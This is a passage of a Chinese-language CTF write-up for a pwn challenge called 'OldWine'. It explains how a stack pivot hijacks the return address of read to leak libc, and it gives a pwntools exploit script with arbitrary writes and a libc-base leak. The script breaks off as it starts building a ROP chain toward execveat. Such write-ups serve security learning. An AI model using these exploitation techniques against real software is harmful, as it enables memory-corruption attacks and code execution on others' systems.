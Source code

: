 为什么要这么做？反汇编`read`，如果成功读取，那么有效的指令只有：

```x86asm read
cmp byte ptr [rip + __libc_single_threaded], 0
je  read+32
xor eax, eax
syscall
cmp rax, -0x1000
ja  read+104
ret
```

因此在`call read@plt`时，rsp只扩展了8字节，也就是返回地址。查看上面的栈布局，
不难发现，当`call`时，rsp刚好等于`rbp - 0x10`，也就是说，我们可以控制参数，
向`read`函数的返回地址写入数据。将`idx`和`size`分别控制为0和一个比较大的值，
由于rsi和rdx没有变化，可以将返回地址劫持到`main`函数中`mov edi, 1; call write@plt;`的地方，
这样就可以泄露出栈上的数据，找到libc的值。

后面就简单了，打传统rop，走`execveat`就可以。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './OldWine'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t, 'b read if $rdx == 0x100')
    else:
        t = remote('', 9999)

    def pivot():
        t.sendlineafter(b'pivoting', b'2')

    def arbwrite(idx: int, size: int, fill: bytes):
        t.sendlineafter(b'pivoting', b'1')
        t.sendlineafter(b'size', str(size).encode())
        t.sendlineafter(b'index: ', str(idx).encode())
        t.send(fill)

    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.39-0ubuntu8.4_amd64/libc.so.6')

    stklo = int(input('Lowest byte: '), 0) if lo & 2 else 0
    arbwrite(0x10, 2, pack(stklo, 'all'))
    pivot()
    arbwrite(0, 0x100, p8(0x45)) # <main+0x5a> mov edi, 1; call write@plt;
    stkbuf = t.recv(0x100)
    if b'pivoting' in stkbuf:
        t.close()
        return 0
    t.sendline(b'512') # size
    t.sendlineafter(b'index: ', b'0')

    libc_base = u64(stkbuf[0xa8:0xb0]) - libc.symbols['__libc_start_main'] - 139
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    gadgets = ROP(libc)
```